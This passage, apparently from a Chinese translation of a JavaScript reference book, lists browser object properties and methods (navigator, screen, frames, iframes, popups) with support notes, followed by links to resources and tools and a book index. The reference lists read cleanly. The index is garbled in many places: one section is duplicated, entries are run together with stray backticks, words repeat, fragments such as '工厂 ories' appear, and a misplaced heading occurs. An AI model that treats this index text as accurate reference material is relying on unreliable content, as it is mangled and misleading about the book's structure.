- `navigator.buildID` -- 返回基于 Gecko 的浏览器的构建标识。ID 格式为 YYYYMMDDHH。（支持: FF2+） *返回值:* String, 只读。
- `navigator.cookieEnabled` -- 返回一个指示浏览器是否启用 cookie 的布尔值。（支持: CH1+, FF1+, IE4+, NN6+, O7+, SF1+） *返回值:* Boolean, 只读。
- `navigator.cpuClass` -- 运行 IE 的 CPU 家族。可能值包括 x86, PPC, 68K, Alpha 和 Other。（支持: IE4+） *返回值:* String, 只读。
- `navigator.language` -- 返回一个代表浏览器语言版本的字符串。（支持: CH1+, FF1+, NN5+, SF1+） *返回值:* String, 只读。
- `navigator.mimeTypes` -- 返回浏览器支持的 MIME 类型列表。（支持: CH1+, FF1+, NN4+, O7+, SF1+） *返回值:* String, 只读。
- `navigator.onLine` -- 返回一个指示浏览器是否在线的布尔值。（支持: IE4+） *返回值:* Boolean, 只读。
- `navigator.oscpu` -- 返回当前操作系统的字符串。（支持: FF1+, NN6+） *返回值:* String, 只读。
- `navigator.platform` -- 返回代表浏览器平台的字符串。（支持: CH1+, FF1+, IE4+, NN4+, O7+, SF1+） *返回值:* String, 只读。
- `navigator.plugins` -- 返回安装在浏览器中的插件。（支持: FF1+, NN3+, O5+, SF1+） *返回值:* 插件数组, 只读。
- `navigator.product` -- 返回当前浏览器的名称。（支持: CH1+, FF1+, NN6+, O7+, SF1+） *返回值:* String, 只读。
- `navigator.productSub` -- 返回浏览器的构建号。（支持: CH1+, FF1+, NN6+, O7+, SF1+） *返回值:* String, 只读。
- `navigator.securityPolicy` -- 当前生效的安全策略。典型值包括导出策略、US 和 CA。（支持: CH1+, FF1+, NN4+, O7+, SF1+） *返回值:* String, 只读。
- `navigator.systemLanguage` -- 操作系统的语言代码。（支持: IE4+） *返回值:* String, 只读。
- `navigator.userAgent` -- 返回当前浏览器的用户代理字符串。（支持: CH1+, FF1+, IE3+, NN2+, O4+, SF1+） *返回值:* String, 只读。
- `navigator.userLanguage` -- 操作系统的语言代码（类似于 systemLanguage）。（支持: IE4+） *返回值:* String, 只读。
- `navigator.userProfile` -- 此对象提供了对用户设置的有限访问（带有用户权限）。（支持: IE4+） *返回值:* userProfile 对象, 只读。
- `navigator.vendor` -- 返回当前浏览器的厂商。（支持: CH1+, FF1+, NN6+, O7+, SF1+） *返回值:* String, 只读。
- `navigator.vendorSub` -- 返回厂商的版本号。（支持: CH1+, FF1+, NN6+, O7+, SF1+） *返回值:* String, 只读。

### 方法

- `navigator.javaEnabled()` -- 指示浏览器是否启用了 Java。（支持: FF1+, NN4+） *返回值:* Boolean, 只读。
- `navigator.mozIsLocallyAvailable(uri, ifOffline)` -- 让代码在不使用网络的情况下检查给定 URI 的文档是否可用。（支持: FF1.5+） *返回值:* Boolean, 只读。
- `navigator.preference(name[, val])` -- 设置用户偏好。此方法仅对特权代码可用。（支持: FF1+, NN4+） *返回值:* String, 只读。
- `navigator.registerContentHandler(mimeType, uri, title)` -- 允许网站注册为给定 MIME 类型的处理程序。（支持: FF2+） *返回值:* 只读。
- `navigator.registerProtocolHandler(protocol, uri, title)` -- 允许网站注册为给定协议的可能处理程序。（支持: FF3+） *返回值:* 只读。

## screen

返回与窗口关联的屏幕对象的引用。

### 属性

- `screen.availTop` -- 指定第一个未分配给永久或半永久用户界面功能的像素的 y 坐标。（支持: CH1+, FF1+, IE4+, NN6+, O7+, SF1+） *返回：* 整数，只读。
- `screen.availLeft` -- 返回屏幕左侧的第一个可用像素。（支持: CH1+, FF1+, IE4+, NN6+, O7+, SF1+） *返回：* 整数，只读。
- `screen.availHeight` -- 指定屏幕的高度（以像素为单位），减去操作系统显示的永久或半永久用户界面功能，例如 Windows 上的任务栏。（支持: CH1+, FF1+, IE4+, NN6+, O7+, SF1+） *返回：* 整数，只读。
- `screen.availWidth` -- 返回窗口可用的水平空间大小（以像素为单位）。（支持: CH1+, FF1+, IE4+, NN6+, O7+, SF1+） *返回：* 整数，只读。
- `screen.colorDepth` -- 返回屏幕的色彩深度。（支持: CH1+, FF1+, IE4+, NN6+, O7+, SF1+） *返回：* 整数，只读。
- `screen.height` -- 返回屏幕的高度（以像素为单位）。（支持: CH1+, FF1+, IE4+, NN6+, O7+, SF1+） *返回：* 整数，只读。
- `screen.left` -- 返回到屏幕左侧的当前距离（以像素为单位）。（支持: CH1+, FF1+, IE4+, NN6+, O7+, SF1+） *返回：* 整数，只读。
- `screen.pixelDepth` -- 获取屏幕的位深度。（支持: CH1+, FF1+, IE4+, NN6+, O7+, SF1+） *返回：* 整数，只读。
- `screen.top` -- 返回到屏幕顶部的距离。（支持: CH1+, FF1+, IE4+, NN6+, O7+, SF1+） *返回：* 整数，只读。
- `screen.width` -- 返回屏幕的宽度。（支持: CH1+, FF1+, IE4+, NN6+, O7+, SF1+） *返回：* 整数，只读。

## FRAME 对象

Frames（框架）用于在同一个浏览器窗口中显示多个 HTML 文档。`FRAME` 对象与同名的 HTML 元素对应。

### 属性

- `allowTransparency` -- 表明框架背景是否为透明的。（支持: IE6+） *返回：* 布尔值，读/写。
- `borderColor` -- 设置边框颜色。（支持: IE4+） *返回：* 字符串，读/写。
- `contentDocument` -- 框架内包含的对象的引用。（支持: FF1+, NN6+） *返回：* document 对象引用，只读。
- `contentWindow` -- 框架内包含的窗口对象的引用。（支持: FF1+, IE5.5+, NN7+） *返回：* document 对象引用，只读。
- `frameBorder` -- 设置框架周围边框的可见性。（支持: CH1+, FF1+, IE4+, NN6+, O7+, SF1+） *返回：* 字符串形式的 yes, no, 1, 0，读/写。
- `height` -- 设置框架的高度。（支持: IE4+） *返回：* 整数，只读。
- `longDesc` -- 一种无障碍属性，用于提供包含对象详细描述的文档 URL。（支持: CH1+, FF1+, IE6+, NN6+, O6+, SF1+） *返回：* 字符串，读/写。
- `marginHeight` -- 框架与其内容之间间距的高度。（支持: CH1+, FF1+, IE6+, NN6+, O7+, SF1+） *返回：* 整数，读/写。
- `marginWidth` -- 框架与其内容之间间距宽度。（支持: CH1+, FF1+, IE6+, NN6+, O7+, SF1+） *返回：* 整数，读/写。
- `name` -- 获取并设置 name 属性。（支持: CH1+, FF1+, IE4+, NN6+, O7+, SF1+） *返回：* 字符串。
- `noResize` -- 设置用户在页面加载后调整框架大小的能力。（支持: CH1+, FF1+, IE6+, NN6+, O7+, SF1+） *返回：* 布尔值，读/写。
- `scrolling` -- 控制框架中滚动条的出现。（支持: CH1+, FF1+, IE6+, NN6+, O7+, SF1+） *返回：* 字符串形式的 yes, no, 1, 0，读/写。
- `src` -- 设置框架的 URL。（支持: CH1+, FF1+, IE6+, NN6+, O6+, SF1+） *返回：* 字符串，读/写。
- `width` -- 设置框架的宽度。（支持: IE4+） *返回：* 整数，只读。

## FRAMESET 对象

Framesets（框架集）定义了窗口中框架的布局。每个 frameset 包含一组行或列。

### 属性

- `border` -- frameset 中框架之间边框的厚度。（支持: CH1+, IE4+, SF1+） *返回：* 整数，读/写。
- `borderColor` -- 设置边框颜色。（支持: IE4+） *返回：* 字符串，读/写。
- `cols` -- 控制 frameset 的水平宽度。（支持: CH1+, FF1+, IE4+, NN6+, O6+, SF1+） *返回：* 字符串，读/写。
- `frameBorder` -- 设置框架周围边框的可见性。（支持: IE4+） *返回：* 字符串形式的 yes, no, 1, 0，读/写。
- `frameSpacing` -- frameset 之间的间距（以像素为单位）。（支持: IE4+） *返回：* 整数，读/写。
- `rows` -- 控制 frameset 的垂直高度。（支持: CH1+, FF1+, IE4+, NN6+, O7+, SF1+） *返回：* 字符串，读/写。

## IFRAME 对象

IFRAME 是包含另一个 HTML 文档的内联框架。

### 属性

- `align` -- 设置与文本对齐方式。（支持: CH1+, FF1+, IE4+, NN6+, O7+, SF1+） *返回：* 字符串，读/写。
- `allowTransparency` -- 表明框架背景是否为透明的。（支持: IE6+） *返回：* 布尔值，读/写。
- `contentDocument` -- 框架内包含的对象的引用。（支持: FF1+, NN6+） *返回：* document 对象引用，只读。
- `contentWindow` -- 框架内包含的窗口对象的引用。（支持: FF1+, IE5.5+, NN7+） *返回：* document 对象引用，只读。
- `frameBorder` -- 设置框架周围边框的可见性。（支持: CH1+, FF1+, IE4+, NN6+, O7+, SF1+） *返回：* 字符串形式的 yes, no, 1, 0，读/写。
- `height` -- 设置框架的高度。（支持: IE4+） *返回：* 整数，只读。
- `hspace` -- 一种非 CSS 的控制对象周围水平间距。（支持: IE4+） *返回：* 整数，读/写。
- `longDesc` -- 一种无障碍属性，用于提供包含对象详细描述的文档 URL。（支持: CH1+, FF1+, IE6+, NN6+, O6+, SF1+） *返回：* 字符串，读/写。
- `marginHeight` -- 框架与其内容之间间距的高度。（支持: CH1+, FF1+, IE4+, NN6+, O7+, SF1+） *返回：* 整数，读/写。
- `marginWidth` -- 框架与其内容之间间距宽度。（支持: CH1+, FF1+, IE4+, NN6+, O7+, SF1+） *返回：* 整数，读/写。
- `name` -- 获取并设置 name 属性。（支持: CH1+, FF1+, IE4+, NN6+, O6+, SF1+） *返回：* 字符串，读/写。
- `noResize` -- 设置用户在页面加载后调整框架的能力。（支持: CH1+, FF1+, IE6+, NN6+, O8+, SF1+） *返回：* 布尔值，读/写。
- `scrolling` -- 控制框架中滚动条的出现。（支持: CH1+, FF1+, IE4+, NN6+, O7+, SF1+） *返回：* 字符串形式的 yes, no, 1, 0，读/写。
- `src` -- 设置框架的 URL。（支持: CH1+, FF1+, IE4+, NN6+, O6+, SF1+） *返回：* 字符串，读/写。
- `vspace` -- 一种非 CSS 的控制对象周围垂直间距。（支持: IE4+） *返回：* 整数，读/写。
- `width` -- 设置框架的宽度。（支持: CH1+, FF1+, IE4+, NN6+, O7+, SF1+） *返回：* 整数，读/写。

## POPUP 对象

POPUP 对象代表特殊的重叠窗口，通常用于对话框、消息框或其他需要与应用程序主窗口分离的临时窗口。

### 属性

- `document` -- document 对象的引用。（支持: IE5.5+） *返回：* document 对象引用，只读。
- `isOpen` -- 当弹出窗口可见时返回 true。（支持: IE5.5+） *返回：* 布尔值，只读。

### 方法

- `hide()` -- 隐藏弹出窗。（支持：IE5.5+）
- `show(left, top, width, height [, positioningElementRef])` -- 在使用 `window.createPopup()` 创建弹出窗后，可以使用 `show()` 显式显示。（支持：IE5.5+）

# 网页上的资源

这里是一些可以在线获取 JavaScript 开发信息的绝佳场所。

# 参考

- **MSDN JScript 文档** -- [`msdn.microsoft.com/en-us/library/yek4tbz0(VS.85).aspx`](http://msdn.microsoft.com/en-us/library/yek4tbz0(VS.85).aspx)
- **Mozilla 开发者中心** -- [`developer.mozilla.org/en/JavaScript`](http://developer.mozilla.org/en/JavaScript) 关于 JavaScript 的大量信息。有大量的教程和纯参考资料。
- **Microsoft Windows 侧边参考** -- [`msdn.microsoft.com/en-us/library/aa965850(VS.85).aspx`](http://msdn.microsoft.com/en-us/library/aa965850(VS.85).aspx)
- **Regular-Expressions.info** -- [www.regular-expressions.info/javascript.html](http://www.regular-expressions.info/javascript.html) 关于通用正则表达式的详细在线参考，以及一些 JavaScript 特有的。
- **JSON.org** -- [www.json.org](http://www.json.org) 与 JavaScript 对象表示（JSON）相关的信息和 API 集合。

# 工具

- **Adobe AIR** -- [www.adobe.com/products/air/](http://www.adobe.com/products/air/) 运行在 Windows、Mac 和 Linux 上的 JavaScript/HTML 和 Flash 桌面开发框架。
- **Regexpal** -- [`regexpal.com/`](http://regexpal.com/) 一个非常棒在线正则表达式测试器，具有实时参考、匹配高亮等功能。
- **Firebug Firefox 调试器** -- [www.getfirebug.com](http://www.getfirebug.com) 适用于 Firefox 的浏览器内调试工具。支持 DOM 浏览、控制台、DOM 检查和性能分析。
- **Fiddler Web 调试器** -- [www.fiddlertool.com](http://www.fiddlertool.com) 微软提供的适用于几乎任何浏览器的调试代理工具。仅限 Windows。
- **YSlow** -- [`developer.yahoo.com/yslow/`](http://developer.yahoo.com/yslow/) Yahoo 用于优化页面下载时间的工具。

# 博客与文章

- **Quirks Mode（怪模式）** -- [www.quirksmode.org](http://www.quirksmode.org) 关于 DOM、DHTML 和 JavaScript 性能等主题的广泛教程和信息。
- **Ajaxian** -- [www.ajaxian.com](http://www.ajaxian.com) 关于 JavaScript 开发的文章和新闻。
- **W3 Schools** -- [`www.w3schools.com`](http://www.w3schools.com) JavaScript（以及其他内容）的文章和参考资料的海量数据库。

# 索引

## 符号

- `--` 递减运算符
- `&` (与) 位逻辑运算符
- `$` 替换符号中的美元符号
- `%` (模) 运算符
- `()` 表达式中的括号
- `,` (逗号) 对象字面量和
- `""` (双引号) JSON 字符串字面量中的 `''` (单引号) 字符串字面量中的
- `...` (省略号) 用于缩短字符串
- `/*` 和 `*/` 注释中的
- `/` (正斜杠) 正则表达式字面量注释中的
- `?:` (条件) 运算符
- `?` (匹配零或一次符号)
- `@` (at) 符号
- `\` JSON 中正则表达式实例中的反斜杠
- `^` 字符串组中的脱符号
- `^` (异或) 位逻辑运算符
- `__` (下划线) 用于私有属性/方法
- `{}` (大括号) 块和对象字面量以及
- `|` (或) 位逻辑运算符
- `+` (连接运算符)
- `++` 递增运算符
- `+` (加) 运算符
- `!==` 和 `!=` 等于运算符
- `===` 和 `==` 等于运算符
- `=` (等号) 运算符
- `|` (管道) 作为交替符号
- IE7 中的 32 位 PNG 图像

## A

- 绝对定位 (CSS)
- 加速器插件 (浏览器)
- 意外闭包
- 酸测试 (Acid Tests)
- `AC_Quicktime.js` JavaScript 库
- 动作消息格式 (AMF)
- Flash 中的 ActionScript
- ActiveX、安全以及
- `ActiveXObject` (全局)
- `addBehavior()` 方法
- Adobe Flash
- 跨域 Ajax 和 Flash 存储安全
- AIR (Adobe 集成运行时)
- Ajax
- `″Ajax: A New Approach to Web Applications″` 浏览器兼容性和跨域 Ajax。*参见*跨域 Ajax 历史和书签 JSON 以及 `XMLHttpRequest`。*参见* `XMLHttpRequest` (XHR)
- `alarmArray`
- `alert()` 对话框
- Alpha 通道特征
- 字母顺序字符串比较
- 备选符号 (|)
- AMF (动作消息格式)
- 锚点/链接对象
- `.anchor(anchorName)` 方法
- 使用画布的动画 (浏览器) DHTML
- 作为闭包的匿名函数
- 定义的 Applets, Java
- `apply()` 方法
- Aptana
- Area 对象
- arguments
- `apply()` 方法
- 参数哈希值
- `call()` 方法
- 创建 SQLite 数据库
- 定义 (函数)
- for 循环和对象
- 可选、重载以及按值与引用传递
- 传递给函数 (replace 方法)
- 算术表达式
- 算术运算符 (JavaScript)
- `Array` 对象 (全局)
- 用于 `for .. in` 循环的数组以及向其添加元素。*参见*元素，向数组添加
- arguments 对象和数组字面量 Object
- `Array` 对象，基础
- 数组数组
- `Array.join()` 方法
- 关联的
- 创建
- 检测
- 索引的
- 迭代循环
- 以及多维对象作为引用类型
- 从中移除元素
- 字符串的大小和
- ASCII
- 赋值运算符 (JavaScript)
- 基础-定义
- 引用
- 关联数组
- 基础-定义
- 迭代和传递参数以及
- 关联性、运算符和
- 异步连接 (XMLHttpRequest)
- XML *参见* Ajax
- 攻击面 (Ajax 应用)
- 属性
- Cookie 属性
- CSS 定义 (DOM) `Number.POSITIVE_INFINITY`/`Number.NEGATIVE_INFINITY`
- 数字和性能。*参见*性能调优
- 替换方案符号
- screen 对象
- 安全。*参见*安全
- 状态栏中的 XML
- 存储限制
- 字符串中的性能
- 对 E4X 的支持
- 对语句的支持
- 支持 ExternalInterface (Flash)
- 支持全局对象函数
- 支持 XPath
- 使用 W3C DOM 存储测试以及 `XMLHttpRequest` 和。*参见* `XMLHttpRequest` (XHR)
- XPath 查询以及
- 浏览器，JavaScript 中的
- 跨浏览器兼容性
- 延迟脚本
- DOM 动态加载脚本
- 外部脚本
- 内联脚本
- `<noscript>` 元素
- `<script>` 元素
- 脚本掩码
- URL，JavaScript 中的
- 文本域

## B

- 后退和前进 (Ajax)
- 基础
- `BUTTON/SUBMIT/RESET` 对象
- 自定义提交单选框

## C

- `caching` 缓存
- `cache variable` 用于减少页面权重的变量哈希以及调用 `call()` 方法
- `call stacks` 重复的数学调用
- `canvas elements (browsers)` 浏览器画布元素
- `Canvas object`
- `capitalization, strings and` caption object
- `capture mode` IE 鼠标事件的捕获模式
- `capture phase (event propagation)` 捕获阶段（事件传播）
- `carriage returns, string literals and CSS.` *另参见* `CSS (Cascading Style Sheets)`
- `case sensitivity` JavaScript 中的大小写敏感以及字符串
- `catch() statement`
- `CDNs (Content Delivery Networks)` 内容分发网络
- `Char classes` 字符类，定义
- `characters` 编码，从字符串中提取
- `charAt()` 方法
- `Charles Proxy Debugger` Charles 代理调试器
- `checkboxes` 基础
- `CHECKBOX/RADIO objects`
- `child frames` 子框架
- `childNodes[] collection`
- `circular references` 循环引用
- `classes` 类
- `Java 中的字符类定义` JavaScript 编程基础以及
- `clearInterval() 方法`
- `client-side data and persistence` 客户端数据与持久化
- 基础
- `cookies` 定义
- `Flash 存储`
- `HTML5 客户端数据库`
- `持久化数据的方法`
- `持久化，定义`
- `SQLite 数据库`
- `IE 中的 UserData`
- `W3C DOM 存储`
- `window.name 存储`


### C

- `caching` 缓存
  - `cache variable` 用于减少页面权重的变量哈希以及调用`call()` 方法
  - `call stacks` 重复的数学调用
- `canvas elements (browsers)` 浏览器画布元素
  - `Canvas object`
- `capitalization, strings and` caption object
- `capture mode` IE 鼠标事件的捕获模式
- `capture phase (event propagation)` 捕获阶段（事件传播）
- `carriage returns, string literals and Cascading Style Sheets (CSS).` *另参见* `CSS (Cascading Style Sheets)`
- `case sensitivity` JavaScript 中的大小写敏感以及字符串`catch() statement`
- `CDNs (Content Delivery Networks)` 内容分发网络
- `Char classes` 字符类，定义
- `characters` 编码，从字符串中提取`charAt()` 方法
- `Charles Proxy Debugger` Charles 代理调试器
- `checkboxes` 基础`CHECKBOX/RADIO objects`
- `child frames` 子框架
  - `childNodes[ ] collection`
- `circular references` 循环引用
- `classes` 类
  - `Java 中的字符类定义`JavaScript 编程基础以及`clearInterval() 方法`
- `client-side data and persistence` 客户端数据与持久化基础`cookies`定义`Flash 存储`HTML5 客户端数据库`持久化数据的方法``持久化，定义`SQLite 数据库`IE 中的 UserData`W3C DOM 存储```window.name 存储`
- `cloning` 定义`对象`
- `closures` 闭包
  - `意外的基础`循环引用``已评估的代码，清理``函数工厂`在 JavaScript 编程中`带循环的``私有方法，模拟``特权成员以及`定时器和`代码中的问题。` *另参见* `源代码，下载`
  - `清理已评估的``eval()` 全局函数`JSON 作为已评估的代码`以及性能`分析``使用 `with` 语句进行编写`
- `code optimization` 代码优化
  - `避免已评估的代码``删除未使用的对象``局部 vs. 全局变量查找``对象和函数指针`在循环中重复 for . . in` 避免使用 `with` 语句，`try . . . catch . . . finally 结构``调整循环`
- `col/colgroup objects`
- `collapsing ranges` 折叠范围
- `collections (DOM elements)` 集合（DOM 元素）
- `color of elements, modifying (DHTML)` 修改元素颜色（DHTML）
- `combinational (connubial) operators` 组合运算符
- `comma (,)` 对象字面量和运算符
  - `文本编辑器命令 (iFrame)`
  - `comments` 基础`JavaScript (参考)`
- `comparison` 对象的比较`字符串的运算符`
  - `布尔值的 XOR 比较`
- `compatibility` 兼容性
  - `向后（比较运算符）`事件的模式。*另参见* 怪性模式
- `compiled languages` 编译型语言
- `composite data types vs. primitive data types` 复合数据类型 vs 原生数据类型
- `computed styles (CSS)` 计算样式
  - `+= (连接赋值运算符)`
  - `连接运算符 (+)`
- `concatenation` 拼接
  - `concat()` 函数`用于减少页面权重的`concat()` 方法`字符串的`
- `conditional compilation` 条件编译
  - `条件运算符 (?:)`
  - `条件语句`
  - `confirm()` 对话框
- `connections, opening (XMLHttpRequest)` 连接，打开 (XMLHttpRequest)
  - `组合运算符`
  - `console log, Firebug`
- `constants` 数学`结果类型`
  - `构造函数属性`
  - `通过原型链检测数组并引用构造函数类型``typeof` 运算符以及`构造函数`
  - `创建数组以及`定义的`Function 对象构造函数``作为原型链的`函数`以及`contains 方法`
- `content` 内容
  - `Content Delivery Network (CDN)` 文档的修改`DOM 的修改`范围的更改`网页 (DOM) 的`所见即所得 (WYSIWYG)`
- `context` 上文
  - `执行上下文基础``执行上下文，`eval()` 全局函数`变量`，定义
- `continue 语句、循环以及`cookies` 基础已定义`
- `Coordinated Universal Time (UTC)` 协调世界时
- `coordinates` 坐标`geolocation` 鼠标
- `Copy on Write (COW) technique` 写时复制技术
- `copying` 索引数组`原生数据类型``核心 DOM`
- `Crockford, Douglas` 道格拉斯·克罗福德
  - `跨浏览器兼容性`
  - `跨浏览器事件工具`
  - `跨域 Ajax 基础`document.domain` Flash 和`iFrames` 图像注入`方法比较`<SCRIPT>` 注入`服务器代理`XMLHttpRequest 和`
  - `跨站请求伪造`
- `Cross-Site Scripting` 跨站脚本攻击
- `CSS (Cascading Style Sheets)` 样式表添加/移除样式表基础`浏览器兼容性以及`计算样式``CSS 转换（浏览器）``cssRule（规则）对象``DOM 和`动态 HTML`在文档中嵌入`
  - `filter 对象 (IE)` 导入的样式表`遍历所有样式表`样式级联顺序`概述`规则，添加/移除``规则，遍历所有``规则，搜索为``样式属性，读取/写入``styleSheet/style 对象`针对浏览器和版本的样式信息`
- `custom errors` 抛出自定义错误`类型`
- `custom events` 自定义事件

### D

- `data` 随 GET 请求更改的`客户端数据与持久化。*另参见* `client-side data and persistence```数据安全`加载 JSON 存储的。*另参见* `client-side data and persistence```使用 XSLT 转换`
- `data types` 数据类型`转换为布尔值`按值 vs. 引用操作`非数值，转换为数字`非字符串，转换为字符串`null 和 undefined```原生布尔值``原生 vs. 引用类型``原生 vs. 原生对象``类型转换```类型`，确定`
- `databases, Gears plugin` 数据库，Gears 插件
- `dates` 日期`比较运算符和`创建`Date 对象`日期字符串，解析`读取和写入``时间差异，测量``定时器和间隔`世界时间概览`
  - `daysInMonth()` 函数
- `debugging` 调试
  - `Debug 对象（全局）```Charles 代理调试器`开发者工具栏 (IE)``Dragonfly (Opera)` 错误处理器`Error 对象概览`Fiddler`Firebug (Firefox)` 栈跟踪函数`测试工具`抛出自定义错误`Web 检查 (Safari) 4`
- `declaring functions` 定义函数
  - `decrement 运算符`
  - `默认行为（事件）`
  - `default 语句`
  - `delete 运算符`
  - `删除的脚本`
  - `未使用的对象`
- `dynamic HTML` 动态 HTML
  - `DHTML 优化`导致的性能问题`
  - `DHTML 和`
  - `DHTML`
  - `DHTML`
  - `DHTML`
  - `DHTML`
  - `滚动条宽度`
  - `定时器和`黄色-fade 技术`z-index, 脚本`
- `custom errors` 抛出自定义错误`类型`
- `custom events` 自定义事件

# E4X (ECMAScript for XML)

- `ECMAScript.` *另见* `JavaScript` 定义的 `ECMAScript Harmony`
- `ES5` 支持和引擎版本的修订
- `Edwards, Dean`
- 元素 (elements)
  - 向数组添加元素
  - 元素属性 (DOM)
  - 元素尺寸 (DHTML)
  - 元素对象方法
  - 查找特定元素 (DOM)
  - 表单
  - 获取绝对位置
  - 隐藏以及代码优化
  - 测量
  - 从数组中移除
  - `XML DOM API`
- `else` 关键字
- `嵌入 Flash 电影`
- `enableInputs()` 函数
- `启用字段`
- `编码`
- `encodeString()` 函数
- `encodeURI()`/`decodeURI()` 方法
- `encodeURIComponent()`/`decodeURIComponent()` 方法
- HTML 实体和标签 (JSON)
- `RegExp` 符号
- 用于 URL 的字符串
- URI 编码、全局对象和 `engines, JavaScript`
- `Enumerator` 对象（全局）
- `Enumerator` 对象（JavaScript）
- `相等性，严格与松散`
- `equals (=)` 运算符
- `等效性，字符串比较以及此书中的错误`
- `错误` (errors)
  - 错误代码 (Safari)
  - 错误处理程序
  - JSON 中的错误处理
  - `Error` 对象（JavaScript）
  - `Error` 对象概述
  - 处理、XML 加载和抛出自定义类型
- `ES5, ECMAScript`
- `转义序列`
  - 字符串编码、字符串字面量以及 `escape()`/`unescape()` 方法
- `eval()` 全局函数
  - `eval()` 方法、安全性以及 `evalTest()` 函数
- `已评估代码`
  - `避免`
  - 清理
  - `eval()` 全局函数和作为 `JSON` 的...
  - `定义的评估表达式`
- `事件` (events)
  - 基础事件模型
  - body 对象
  - `BUTTON/SUBMIT/RESET` 对象
  - `CHECKBOX/RADIO` 对象
  - 兼容性
  - 跨浏览器事件工具
  - 自定义默认行为，阻止
  - 用于...的默认处理程序
  - document 对象
  - DOM 电影事件 (QuickTime)
  - DOM 存储事件
  - `domready` 事件
  - 事件绑定
  - 事件冒泡
  - 事件驱动脚本
  - `Event` 对象
  - `FILE` 对象
  - 表单
  - 通用元素
  - 获取鼠标按钮
  - 获取目标
  - 获取类型
  - HTML `<form>` 标签
  - IE 鼠标事件，用于...的捕获模式
  - 图像对象
  - 检查事件监听器
  - 检测按键
  - 加载/卸载事件
  - 日志
  - 鼠标位置
  - mouseenter/mouseleave 事件
  - 概述
  - 传播
  - 注册
  - 复制
  - 尺寸调整事件
  - 滚动事件 (Scroll event)
  - `SELECT` 对象
  - 存储对象
  - `TEXT/PASSWORD/HIDDEN` 对象
  - `TEXTAREA` 对象
  - `this` 关键字和非侵入式事件注册
  - 非侵入式 JavaScript
  - `window` 对象
  - 窗口
- `异常处理`
  - 定义的语句
  - 触发异常
- `.exec()` 方法
- `execCommand()`
- 执行和加载顺序 (脚本)
- 执行上下文
  - `eval()` 全局函数、函数以及 `expando 属性`
- `expires` 属性 (cookies)
- `表达式, JavaScript`
  - 基础
  - `Boolean` 对象和
- `可扩展标记语言 (XML).` *见* `XML (可扩展标记语言)`
- `可扩展样式表转换语言 (XSLT).` *见* `XSLT (可扩展样式表转换语言)`
- `外部对象`
- 外部脚本
- `ExternalInterface API` (浏览器)
- `ExternalInterface` (Flash)

# F

- `工厂 ories, 函数.` *见* `函数工厂`
- `Fiddler` 调试工具
- `字段` (表单)
  - 启用/禁用
  - `FIELDSET` 对象
  - 文件输入
  - 隐藏
  - 富文本字段
  - 设置焦点到
- `FILE` 对象
- `filter` 对象 (IE)
- `Firebug` (Firefox)
  - 使用 `Firebug Lite` 进行代码性能分析
  - 概述
- `Firefox`
  - `for . . in` 循环和下载
  - 安全策略
- `FireUnit` (测试)
- 一等对象，函数作为...
- `固定定位 (CSS)`
- `全局标志位`
- `Flash`
  - ActionScript 中的...
  - 跨域 Ajax、安全和存储
- `Flash 电影`
  - 创建
  - 方法/属性，访问
  - 概述
  - 设置
- `浮点数字面量`
- 浮点值
- 基于流的布局模型
- `focus()` 方法
- `for . . in` 循环基础
  - `continue` 语句和 `for . . in` 迭代器
  - 定义实例方法
  - 将对象用作数组使用
  - `for . . in` 循环基础
  - 代码优化、`continue` 语句以及 `for` 循环基础
  - `continue` 语句和`字符串格式化`
- `表单` (forms)
  - 按钮
  - 复选框
  - 防止双提交
  - 元素
  - 字段、启用和禁用
  - 字段、文件输入
  - 字段、隐藏
  - 字段、设置焦点到
  - `Form` 对象
  - 表单工具提示 (DHTML)
  - `onsubmit` 事件
  - 单选按钮
  - 富文本字段
  - 选择和多选
  - 防止在回车时提交
  - 提交和重置
  - 文本框/文本区域/密码框
- `前进` 按钮、Ajax 和 `文档片段, document`
- `框架` (frames)
  - 创建
  - 定义的
  - `FRAME` 对象
  - 框架对象模型 (FOM)
  - 引用
- `framesets` 基础
- `FRAMESET` 对象
- `Friedl, Jeffrey`
- `fromCharCode()` 方法
- `函数` (functions)
  - 参数，按值传递 *对比 引用*
  - `Boolean` 对象和闭包。*见* 闭包
  - 声明
  - 执行上下文
  - 使用 `Function` 对象 (JavaScript) 扩展替换模式
  - 函数指针和代码优化
  - 全局对象中的 `functRef`
  - `isType()`
  - `JavaScript` 全局
  - 在 JavaScript 编程中
  - 嵌套。重载。*见* 函数重载
  - 作为参数传递 (替换方法)
  - 返回值
  - 作用域
  - 变量作用域
- `函数工厂`基础
  - 循环中的闭包和模式
- `函数重载`
  - 参数哈希
  - `arguments` 对象基础
  - 可选参数
- `函数语句` 基础
  - 浏览器支持

# G

- `垃圾回收` 基础
  - 循环引用和 `Garrett, Jesse James`
- `Gears` 浏览器插件 (Google)
- 通用元素
- `Geolocation API` (浏览器)
- `window 和 document 的几何`
- `GET` 请求 (XMLHttpRequest)
- `getBoundingClientRect()` 函数
- `getElementByld` 函数
- `getElementsByName` 静态函数
- `getElementsByTagName` 函数
- `getStackTrace()` 函数
- `getters`
  - 私有成员的访问和定义
  - 获取日期/时间变量
  - 读取/写入日期和`全局上下文`
- JavaScript 全局函数
- `Global` 对象
  - 在浏览器中定义的特性
  - 添加到全局对象函数中的...
  - 全局对象，JavaScript 全局对象。*见* `JavaScript` 全局对象
  - 数字辅助工具
  - 的属性
  - 引用 `JavaScript 全局属性`
- `全局作用域`, 定义
- 全局变量
- `GMT` (格林尼奇时间)
- `Google Chrome`, 下载
- 字符串中的组
- `GZIP`

# H

- `处理程序` (handlers)
  - 默认 (事件) 事件
  - 处理错误。*见* `错误`
- `Harmony, ECMAScript`
- `hasFeature()` 方法
- `哈希` (hashes)
  - 参数哈希基础
  - 迭代和 `hasOwnProperty()`
- `请求/响应头部,` (XMLHttpRequest)


# 索引

## A

- `Hewitt, Joe`
- `HIDDEN/TEXT/PASSWORD` 对象
- 历史
- `History` 对象
- 窗口
- `HTML` (超文本标记语言)
  - 基础文档结构
  - 自定义 HTML 标签格式化
  - 动态。*见* `动态 HTML (DHTML)`
  - 实体编码
  - 表单对象
  - `<form>` 标签
  - 字符串格式化和 HTML5 客户端数据库
  - `HTMLFormElement`
  - JavaScript 和 `<table>` 元素
  - 标签，提取

### 标识符（字符串）

- `IE (Internet Explorer)`
- 循环中的 `.for . in`
- 32 位 PNG 图像
- `Developer Toolbar`
- `DOCTYPE` 切换
- `DOM` 与 `DOM Inspector`
- `event object` 属性
- `filter object` 中的扩展权限
- `JScript profiler`
- `mouse events` 的捕获模式
- `parseError` 属性
- `Same Origin Policy`（同源策略）与 `security zones`
- 在 `signed scripts` 中将 XML 序列化为文本，以及 `WYSIWYGs` 中的 `userData`
